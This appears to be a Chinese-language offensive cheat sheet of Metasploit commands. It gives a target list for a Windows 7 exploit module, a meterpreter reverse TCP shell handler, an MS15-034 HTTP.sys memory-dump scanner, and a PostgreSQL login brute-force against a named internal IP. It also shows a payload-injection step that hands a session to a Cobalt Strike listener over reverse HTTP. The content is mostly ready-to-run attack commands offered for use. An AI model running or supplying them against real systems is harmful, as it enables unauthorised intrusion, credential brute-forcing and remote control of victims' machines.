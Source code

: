 ```bash
   0   Automatic targeting via fingerprinting
   1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
   2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
   3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)
   4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)
   5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)
   6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
   7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)

```


**Metasploit反弹shell**
```bash
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST
set LPORT
exploit -j  # 后台执行
```

**ms15-034**
```bash
use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
set rhost ip
run
```


**爆破postgres sql**
```bash
use auxiliary/scanner/postgres/postgres_login
set rhosts 10.7.199.28
set user_file /root/fore/user.txt
set userpass_file /root/fore/pass.txt
set stop_on_success true
exploit
```

**msf转cs**
```bash
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http //PAYLOAD
set DisablePayloadHandler true
set LHOST 192.168.5.173 //cs的IP
set LPORT 50050 //cs监听器的端口
set SESSION 1
exploit
```


